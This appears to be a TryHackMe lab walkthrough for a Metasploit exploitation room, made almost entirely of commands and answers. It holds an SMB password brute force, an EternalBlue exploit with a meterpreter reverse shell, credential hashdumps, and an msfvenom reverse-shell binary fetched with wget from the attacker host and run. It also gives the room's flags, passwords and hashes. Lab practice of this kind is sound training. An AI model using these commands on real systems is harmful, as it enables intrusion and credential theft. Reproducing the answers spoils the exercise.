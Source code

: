 # THM - Metasploit: Exploitation

<br>

```shell
msfconsole
```

## Task 2

### Task 2.1

```shell
mkdir nmap
nmap -A -oN nmap/initial -p- 10.10.210.94
```

or:
```shell
(msfconsole:)
	search portscan
	use auxiliary/scanner/portscan/tcp
		show options
		set RHOSTS 10.10.210.94
		run
```

> 5

### Task 2.2

nmap or:
```shell
(msfconsole:)
		back
	search netbios
	use auxiliary/scanner/netbios/nbname
		show options
		set RHOSTS 10.10.210.94
		run
```

> ACME IT SUPPORT

### Task 2.3

nmap or:
```shell
(msfconsole:)
		back
	search http_version
	use auxiliary/scanner/http/http_version
		show options
		set RHOSTS 10.10.210.94
		set RPORT 8000
		run
```

> webfs/1.21

### Task 2.4

```shell
(msfconsole:)
		back
	search smb_login
	use auxiliary/scanner/smb/smb_login
		show options
		set RHOSTS 10.10.210.94
		set SMBUser penny
		set PASS_FILE ./MetasploitWordlist.txt
		run
```

> leo1234

<br>

## Task 4

### Task 4.1

```shell
(msfconsole:)
		back
	search SMTP type:auxiliary
	info auxiliary/scanner/smtp/smtp_relay
```

> Campbell Murray

<br>

## Task 5

```shell
nmap -A -oN nmap/initial2 -p- 10.10.167.139
```

🧰 https://www.maketecheasier.com/find-open-files-using-command-prompt-windows/#:~:text=Searching%20for%20files%20and%20folders,of%20the%20name%20you%20remember.

```shell
(msfconsole:)
	search MS17-010
	use exploit/windows/smb/ms17_010_eternalblue
		show options
		set RHOSTS 10.10.167.139
		set LHOST 10.14.27.197
		show payloads
		set payload payload/windows/x64/meterpreter/reverse_tcp
		run
			
			shell
				dir "\flag.txt" /s
				type C:\Users\Jon\Documents\flag.txt
```

### Task 5.2

> THM-5455554845

### Task 5.3

```shell
(msfconsole:)	
			hashdump
```

> 8ce9a3ebd1647fcc5e04025019f4b875

<br>

## Task 6

```shell
ssh murphy@10.10.143.247
	yes
	1q2w3e4r
	sudo su
	1q2w3e4r
		whoami
```

```shell
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.14.27.197 LPORT=9876 -f elf > rev_shell.elf

python3 -m http.server 9000
```

```shell
(ssh:)
		wget http://10.14.27.197:9000/rev_shell.elf
		chmod +x rev_shell.elf
```

```shell
(python3:)
	^C

msfconsole
	use exploit/multi/handler
		show options
		set LHOST 10.14.27.197
		set LPORT 9876
		set payload linux/x86/meterpreter/reverse_tcp
		run
```

```shell
(ssh:)
		./rev_shell.elf
```

```shell
(msfconsole:)
			run post/linux/gather/hashdump
```

### Task 6.6

> $6$Sy0NNIXw$SJ27WltHI89hwM5UxqVGiXidj94QFRm2Ynp9p9kxgVbjrmtMez9EqXoDWtcQd8rf0tjc77hBFbWxjGmQCTbep0

<br>

